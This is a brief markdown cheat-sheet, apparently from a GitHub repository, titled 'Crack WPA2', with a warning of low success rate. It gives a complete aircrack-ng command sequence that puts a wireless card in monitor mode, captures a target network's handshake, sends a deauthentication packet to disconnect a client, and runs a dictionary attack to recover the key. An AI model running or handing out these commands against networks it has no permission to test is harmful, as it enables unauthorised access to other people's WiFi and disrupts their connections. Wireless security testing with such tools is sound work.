 # Crack WPA2

A basic way to crack WPA2 key.

> :warning: low success rate.

## Aircrack-ng

[Aircrack-ng](https://www.aircrack-ng.org/) is a complete suite of tools to assess WiFi network security.

```bash
# start wifi monitor mode

airmon-ng start $IFACE

# run airodump-ng and note target bssid and channel

airodump-ng

# start wifi monitor mode on targets channel

airmon-ng start $IFACE $CHANNEL

# capture handshake; send deauth

airodump-ng -c $CHANNEL --bssid $BSSID -w psk $IFACE

aireplay-ng -0 1 -a $BSSID -c $CLIENT $IFACE

# dictionary attack on .cap

aircrack-ng -w password.lst -b $BSSID psk*.cap
```